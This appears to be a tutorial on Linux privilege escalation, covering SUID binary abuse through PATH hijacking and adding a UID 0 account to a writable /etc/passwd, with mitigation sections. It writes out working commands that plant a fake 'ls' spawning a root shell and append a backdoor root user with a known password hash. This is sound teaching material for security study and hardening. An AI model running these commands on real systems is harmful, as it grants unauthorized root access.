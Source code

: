 ### **Understanding and Exploiting SUID Binaries for Privilege Escalation**

---

#### **What is a SUID Binary?**
- In Linux, an SUID (Set User ID) binary allows a file to be executed with the permissions of its owner instead of the user who runs it.  
- This is particularly dangerous when a file with the SUID bit set is owned by `root`, as it can give non-root users root-level access if exploited.

---

#### **How SUID Permissions Appear**
The `s` in the permissions string indicates SUID (Set User ID). For example:
```plaintext
-rwsr-xr-x  1 root root 12345 Nov 28 10:00 vulnerable_binary
```
Here, the `s` in place of the owner's execute (`x`) bit shows that this binary runs with the file owner's permissions (`root` in this case).

---

### **Finding SUID Binaries**
To locate files with the SUID bit set, you can use the following command:
```bash
find / -perm -u=s -type f 2>/dev/null
```

#### **Breaking Down the Command:**
- `find`: Searches the file system.
- `/`: Starts the search from the root directory.
- `-perm -u=s`: Matches files with the SUID permission set.
- `-type f`: Only searches for regular files.
- `2>/dev/null`: Redirects error messages (e.g., inaccessible directories) to `/dev/null`.

---

### **Example: Exploiting a SUID Binary**
#### **Scenario:**
Suppose the SUID binary `/usr/bin/vulnerable_binary` is found, owned by root.

#### **Steps to Exploit:**
1. **Examine the Binary**  
   Use `strings` or `ltrace` to analyze the binary for potential vulnerabilities:
   ```bash
   strings /usr/bin/vulnerable_binary
   ltrace /usr/bin/vulnerable_binary
   ```
   Look for indications of unsafe function calls (e.g., `system()` or `execve()`).

2. **Check for Writable Paths**  
   If the binary calls external programs, verify if those programs are writable:
   ```bash
   echo $PATH
   ls -l /path/to/external/program
   ```

3. **Manipulate the PATH Environment Variable**  
   If the binary relies on an external command, override the `PATH` to execute your malicious code:
   ```bash
   export PATH=/tmp:$PATH
   echo '/bin/bash' > /tmp/ls
   chmod +x /tmp/ls
   /usr/bin/vulnerable_binary
   ```

4. **Exploit Unsafe `system()` Calls**  
   If the binary runs shell commands using `system()`, inject malicious commands into the input or environment variables.

5. **Run the Binary**  
   If the exploit works, you should gain a root shell:
   ```bash
   /usr/bin/vulnerable_binary
   ```

---

### **Practical Example: Exposing Root Access**
Here’s a common example of exploiting a SUID binary:
1. **Locate SUID Binaries:**
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```
   Example output:
   ```plaintext
   /usr/bin/passwd
   /usr/bin/sudo
   /usr/local/bin/vulnerable_binary
   ```

2. **Analyze `vulnerable_binary`:**
   If the binary uses `system()` to call `ls`:
   ```bash
   strings /usr/local/bin/vulnerable_binary
   ```
   Output might show:
   ```plaintext
   system("ls")
   ```

3. **Exploit the PATH:**
   Replace `ls` with your malicious binary:
   ```bash
   echo '/bin/bash' > /tmp/ls
   chmod +x /tmp/ls
   export PATH=/tmp:$PATH
   /usr/local/bin/vulnerable_binary
   ```
   This grants you a root shell.

---

### **Mitigation: Securing SUID Binaries**
1. **Avoid Setting SUID on Non-Essential Files**  
   Only necessary binaries (e.g., `passwd`) should have SUID permissions.

2. **Audit Regularly**  
   Run the `find` command periodically to locate and review SUID binaries.

3. **Use Access Control Lists (ACLs)**  
   Limit which users can execute SUID binaries.

4. **Keep Software Updated**  
   Vulnerabilities in SUID binaries often arise due to outdated software.

---

### **Additional Resources**
- [GTFOBins](https://gtfobins.github.io/)  
 
### **Exploiting a Writable `/etc/passwd` for Privilege Escalation**

---

#### **Overview:**
If a writable `/etc/passwd` file is discovered, it can be exploited to escalate privileges by adding a new user with root privileges. This vulnerability arises because `/etc/passwd` defines user accounts and their access levels.

---

### **Structure of `/etc/passwd`**
Each line in `/etc/passwd` follows this format:
```plaintext
username:password:UID:GID:comment:home_directory:shell
```

Example entry for the root user:
```plaintext
root:x:0:0:root:/root:/bin/bash
```

#### **Key Fields for Exploitation:**
- **Username**: Custom name for the new user.
- **Password**: Encrypted password (hash).
- **UID**: Use `0` to give the user root privileges.
- **GID**: Use `0` to make the user part of the root group.
- **Home Directory**: Path to the user's home directory.
- **Shell**: Set to `/bin/bash` for a shell.

---

### **Steps to Exploit**

#### 1. **Generate a Password Hash**
Create an encrypted password using the `openssl` command:
```bash
openssl passwd -1 -salt root password
```
Replace `password` with the desired password. Example output:
```plaintext
$1$root$CQskME2FvGfKuh/7KTPSn1
```

#### 2. **Craft a Malicious Entry**
Using the above password hash, construct a new `/etc/passwd` entry:
```plaintext
malicious_user:$1$root$CQskME2FvGfKuh/7KTPSn1:0:0:root:/root:/bin/bash
```

#### 3. **Edit `/etc/passwd`**
Append the malicious entry to the writable `/etc/passwd` file:
```bash
echo 'malicious_user:$1$root$CQskME2FvGfKuh/7KTPSn1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

#### 4. **Switch to the New User**
Log in as the new user:
```bash
su malicious_user
```
Enter the password you used in step 1. After logging in, you should have a root shell:
```bash
whoami
root
```

---

### **Mitigation and Hardening**
To prevent this type of exploit:
1. **Restrict Write Access to `/etc/passwd`:**
   Ensure only the root user has write access:
   ```bash
   chmod 644 /etc/passwd
   ```

2. **Audit File Permissions:**
   Regularly check for writable system files:
   ```bash
   find / -perm -2 -type f 2>/dev/null
   ```

3. **Limit Group Memberships:**
   Ensure only trusted users are part of groups with elevated permissions.

4. **Monitor System Changes:**
   Use file integrity monitoring tools like `AIDE` or `Tripwire` to detect unauthorized changes.



---

### **Key Takeaways**
- Writable `/etc/passwd` is a severe security risk.
- Exploiting this vulnerability allows attackers to create new root users.
- Regular system audits and strict permission management can mitigate this threat.

By exploiting this vulnerability, attackers can easily gain unauthorized root access, making it crucial to secure critical files on the system.
